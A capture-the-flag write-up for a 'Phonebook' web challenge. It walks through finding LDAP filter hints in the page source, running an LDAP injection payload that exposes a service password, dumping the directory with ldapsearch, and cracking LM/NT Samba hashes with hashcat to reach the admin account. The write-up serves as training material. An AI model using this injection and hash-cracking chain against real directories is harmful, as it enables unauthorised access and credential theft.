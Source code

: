 # Phonebook

Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition
can last several ... who knows ... years?

Your task is to gain access to the application running on http://phonebook.mysterious-delivery.tcc:40000.

May the Packet be with you!

---

![](portal.png)

Looking into the web source code, I found the following comments:

```
<!-- New LDAP server host: 10.99.0.121 -->
<!-- 1/2/2022 Temporary search filter (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_))(memberof=cn=nonmigrated,ou=groups,dc=local,dc=tcc)) -->
<!-- 6/8/2022 Filter after migration  (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_}))) -->
```

Phonebook's IP is `10.99.0.120` so this is a different node. Let's `nmap`:

```
$ nmap -sV 10.99.0.121
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-25 22:13 CEST
Nmap scan report for ldap.mysterious-delivery.tcc (10.99.0.121)
Host is up (0.026s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE VERSION
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.85 seconds
```

Indeed, it seems to be running **LDAP** on `389`.

Next, I tested both LDAP filters. The server responds with `Malformed filter - Try harder;-)`.

Then, I tried to send `*`. Great, it enumerates all the users.

![](users.png)

The filter value seems to be passed into `uid={VALUE}` which corresponds with the filter examples found in the source
code.

Let's try [LDAP injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection).
I got lucky with `*)(uid=*))(|(uid=*`:

![](injection.png)

This is great, we got a couple new users like `admin1`, `admin2` and mainly `ldap_sync` even with the
password `gasg35faCasgt%AF`.

BTW, this is how the payload changes the LDAP filter. Effectively, it becomes just `(uid=*)`:

```
(|
  (&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=*)(uid=*))
  (|(uid=*))
)
```

Next logical step is to use the found user and password, connect to LDAP and get as much info as possible:

```
$ ldapsearch -H ldap://10.99.0.121 -x -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w 'gasg35faCasgt%AF' -b "DC=local,DC=tcc"

# extended LDIF
#
# LDAPv3
# base <DC=local,DC=tcc> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# local.tcc
dn: dc=local,dc=tcc
objectClass: top
objectClass: dcObject
objectClass: organization
o: nodomain
dc: local

..
```

The full output is in [ldap-dump.txt](ldap-dump.txt).

The file contains Samba passwords.

```
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
```

[LM hash](https://en.wikipedia.org/wiki/LAN_Manager#Password_hashing_algorithm) is pretty weak.
Let's try to crack it with **hashcat**. At first, I grepped all the passwords into a file [LanMan.txt](LanMan.txt).

```
$ hashcat -m 3000 -a 3 LanMan.txt
```

The default hashcat's strategy quickly cracks 133 out of 134 passwords!

Of course, the only uncracked password is for `admin2` (our web admin).

At least we cracked the first half of the passwords, which is `TOOSTRO` (perhaps **TOO STRONG** ???).

To crack the second half, I used a bruteforce attack. Inspired by the question
[Unable to crack second half of LM hash ](https://hashcat.net/forum/thread-8771.html) on hashcat forum:

```
$ hashcat 48448F207404DB05F3BAC3A9216F6D52 -m 3000 -a 3 -1 ?u?d?s ?1?1?1?1?1?1?1
```

It worked! In a couple of minutes, I got the second half `NGPASS.`
So the full password is `TOOSTRONGPASS.`

However, this is not the original password. It's important to understand how LM hashes are generated:
> The user’s password is converted to uppercase.

So, the original password might be something like `TooStrongPass.`, `TooSTRONGPass.` or **any other combination**.

I created Python script [find-password.py](../../../../src/main/python/catch22/Phonebook) to enumerate all the
possibilities and find the correct one by comparing against `sambaNTPassword` hash.
I was a bit disappointed when it **found no match**.

So, what else... Back to LM hash rules. There is one more important:
> The user's password is restricted to a maximum of fourteen characters.

Apparently, the original password might have been longer! How do I recover it? I have the NT hash and I know
how the passwords starts. I'm **probably missing only a couple of characters**. Let's try
hashcat [Hybrid attack](https://hashcat.net/wiki/doku.php?id=hybrid_attack).

At first, I dumped all the 8192 password prefixes into [passwords.txt](passwords.txt).
Then I ran hashcat, incrementing the number of extra characters:

```
$ hashcat 32644235283BC5561CC7FE4FFFADDAEE -m 1000 -a 6 passworsds.txt ?a?a?a?a
```

After a couple of minutes, the hash was cracked:

```
32644235283bc5561cc7fe4fffaddaee:TooStrongPass.2022
```

Yay! The last step, login on the web as `admin2 / TooStrongPass.2022` and go to Settings:

![](settings.png)

Flag is `FLAG{iLcT-HnNF-egs3-mCSN}`.

This was a very nice (and long) challenge!